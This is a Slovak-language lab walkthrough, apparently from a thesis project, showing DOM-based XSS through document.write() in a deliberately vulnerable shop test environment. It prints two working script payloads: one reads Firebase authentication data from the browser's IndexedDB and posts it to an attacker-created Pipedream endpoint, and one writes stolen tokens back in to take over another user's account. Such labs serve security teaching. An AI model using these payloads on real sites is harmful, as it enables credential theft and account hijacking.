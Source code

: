# Document objcet model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Predstavíme si DOM XSS na príklade vygenerovania exportu objednávky do novéhe okna prehliadača pomocou metódy document.write().
- Metóda document.write() prepisuje celú kostru stránky a generuje novú pomocou argumentu vloženého do metódy. Týmto spôsobom sa dajú jednoducho a automatizovane generovať nové stránky alebo upravovať už existujúce.
- Problém nastáva, keď sa ako argumentu vloží škodlivý kód, ktorý je vložený priamo do tela stránky.
- Ako môžeme vidieť v testovacom prostredí, obrazovka obsahuje vstup kde zapisujeme názov exportu našej objednávky a tlačidlo na vygenerovanie exportu.
- Ako prvé sa presunieme na podstránku produktov a vložíme ľubovoľné produkty do košíka.
- Keď máme košík naplnený produktami môžeme zmeniť alebo ponechať názov exportu a kliknúť na tlačidlo “Export”.
- Vygeneroval sa nám jednoduchý export objednávky v novom okne. Názov exportu je vpísaný ako nadpis nad jednotlivými položkami košíku. Hodnota zo vstupu je priamo vložená do 
  tela novej stránky, čím vzniká zraniteľnosť a priestor na vloženie škodlivého kódu.
- Zopakujeme si proces generovania exportu, ale teraz vložíme škodlivý kód do vstupu pre názov exportu.
- Vložme nasledovný úryvok kódu do inputu:
- ```
      <script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const getDataRequest = objectStore.getAll();

        getDataRequest.onsuccess = (event) => {

        const headers = new Headers();
        headers.append("Content-Type", "text/plain");

        const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: JSON.stringify(event.target.result),
        };

        // Doplnit endpoint vygenerovany sluzbou Pipedream
        fetch("pipedream-endpoint", options); 
        }
      };
      </script>
- Ukážkový kód sprístupní lokálnu databázu prehliadača (indexDB), ktorú autentifikačný servis FirebaseAuth využíva na uchovávanie dát o prihlásenom používateľovi. 
  Vytiahneme dáta z databázy a celý objekt odošleme na zadanú adresu vo funkcii fetch().
- V kóde sa nachádza komentár nad funkciou fetch(). Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvorime
  novy projekt. Po vytvorení projketu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do nášho kódu. 
- Kód vložíme do vstupného poľa a vygenerujeme export objednávky.
- Po vygenerovaní exportu môžeme vidieť, že názov exportu je prázdny a spustil sa náš škodlivý kód. Na endpoint by nám mal prísť celý objekt s dátami.
- Odhlásime sa z aplikácie a opätovne sa prihlásisme pod iným účtom, buď existujúcim alebo si vytvoríme nový.
- Po prihlásení využijeme spomínanú zraniteľnosť znova a vložíme do lokálnej databázy dáta užívateľa, čím prelomíme autentifikáciu a prihlásime sa do iného účtu.
- Kód na vloženie používateľských dát vyzerá nasledovne:
     ```<script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const data = {
          fbase_key: "random-fbase-key",
          value: {
            uid: "RTejhfCWw1OAlHcoAj41Fy93ZJJ3",
            email: "test@gmail.com",
            emailVerified: false,
            isAnonymous: false,
            providerData: [
              {
                providerId: "password",
                uid: "test@gmail.com",
                displayName: null,
                email: "test@gmail.com",
                phoneNumber: null,
                photoURL: null,
              },
            ],
            stsTokenManager: {
              refreshToken: "random-refresh-token",
              accessToken: "random-access-token",
              expirationTime: 1712794096425,
            },
            createdAt: "1711383904315",
            lastLoginAt: "1711790596471",
            apiKey: "random-api-key",
            appName: "[DEFAULT]",
          },
        };

        objectStore.clear();

        const addDataRequest = objectStore.add(data);

        addDataRequest.onsuccess = (event) => alert("Success!");
      };
    </script>

- Objekt "data" v ukážke je len na demonštráciu. Nahradíme ho objektom, ktorý nám prišiel na vytvorený endpoint po vygenerovaní objednávky. 
  Objekt bude pravdepodobne treba preformátovať, takže názvy atribútov objektu musia byť bez úvodzoviek, tak ako tomu je v ukážkovom objekte.
- Kód vložíme znova do vstupu pre export a odošleme.
- Po obnovení stránky môžeme vidieť v hlavičke stránky, že sme prihlásený pod iným účtom.
- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/dom-xss-write.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/dom-xss-write.mp4)